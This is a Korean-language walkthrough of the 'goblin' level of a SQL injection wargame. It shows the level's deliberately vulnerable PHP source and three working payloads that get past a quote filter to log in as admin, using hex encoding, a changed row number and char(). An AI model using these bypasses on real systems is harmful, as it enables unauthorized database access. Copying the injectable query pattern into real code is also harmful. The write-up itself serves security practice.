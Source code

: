 # 3번문제 goblin

이번에는 서버가 어려워졌다.
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'|\"|\`/i', $_GET[no])) exit("No Quotes ~_~"); 
  $query = "select id from prob_goblin where id='guest' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("goblin");
  highlight_file(__FILE__); 
?>
```
이제 '와 "을 sql문에서 입력할 수 없게 막은 것인데,  
그래서 id='admin' 과 같이 파라미터를 보낼 수 없게됬다.

## 방법 1. id에 16진수를 사용하기

여기서 쓸 수 있는 것은, 스트링 우회법이다.  
db마다 다른데, 여기선 0x로 문자들을 16진수로 표기해도 문자열로 해석하는 점을 이용해서,

admin 을 0x61646d696e 으로 입력해준다.
(16진수로 텍스트를 변환하는 것은 https://www.online-toolz.com/langs/ko/tool-ko-text-hex-convertor.html 이 사이트를 이용했다.)

```
https://los.eagle-jump.org/goblin_5559aacf2617d21ebb6efe907b7dded8.php?no=0%20or%20id=0x61646d696e
query : select id from prob_goblin where id='guest' and no=0 or id=0x61646d696e
```
이렇게 해주면 뚫리는 것을 볼 수 있다.

# 방법 2. no 값 넣기

아까 no=1 일때, guest가 true 가 됬으니, no값을 조작해서 id가 admin 이 나오게 하면 된다.
```
https://los.eagle-jump.org/goblin_5559aacf2617d21ebb6efe907b7dded8.php?no=0%20or%20no=2
query : select id from prob_goblin where id='guest' and no=0 or no=2
```

# 방법 3. id에 char() 내장 함수 사용하기

16진수로 값을 변환해서 넣지 않아도, mysql에선 char라는 내장함수로 10진수를 아스키코드로 변환하는 것을 활용할 수 있다.
```
https://los.eagle-jump.org/goblin_5559aacf2617d21ebb6efe907b7dded8.php?no=0%20or%20id=char(97,%20100,%20109,%20105,%20110)
query : select id from prob_goblin where id='guest' and no=0 or id=char(97, 100, 109, 105, 110)
```
